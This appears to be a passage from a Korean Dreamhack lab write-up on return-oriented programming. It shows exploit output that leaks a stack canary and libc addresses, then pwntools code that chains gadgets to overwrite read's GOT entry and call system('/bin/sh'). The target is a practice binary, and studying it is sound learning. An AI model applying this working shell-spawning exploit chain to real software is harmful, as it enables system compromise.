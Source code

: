 #


```
$ python3 exploit.py
[+] Starting local process './rop': pid 149
[*] '/home/ion/dreamhack/Exploit_Tech_Return_Oriented_Programming/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './rop'
[+] Canary: 0x8e0871b4782ff900
[+] read: 0x7f340bd0e020
[+] libc_base: 0x7f340bbfe000
[+] system: 0x7f340bc4d420
[*] Stopped process './rop' (pid 149)
```

<br>

**GOT Overwrite 및 "/bin/sh" 입력**

```python
# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload = b'A'*56 + p64(canary) + b'B'*8


# puts(read@got)
payload += p64(pop_rdi) + p64(read_got) # puts(read@got)
payload += p64(puts_plt)        # puts(read@got) 호출


# read(0, read@got, 0) => read@got -> system
payload += p64(pop_rdi) + p64(0)        # read(0, , )
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)    # read(0, read@got, 0)
payload += p64(read_plt)        # read(0, read@got, 0) 호출


# read("/bin/sh") => system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got+0x8)    # read 함수의 첫번째 인자 값 ("/bin/sh")
payload += p64(read_plt)        # read("/bin/sh") 호출


p.sendafter("Buf: ", payload)   # puts()와 read got를 이용해서 read() 주소 출력
read = u64(p.recvn(6)+b'\x00'*2)        # 화면에 출력된 read() 주소를 read에 대입
lb = read - libc.symbols["read"]        # libc base = read 주소 - read symbols
system = lb + libc.symbols["system"]    # system = libc base + system symbols

slog("read", read)
slog("libc_base", lb)
slog("system", system)
```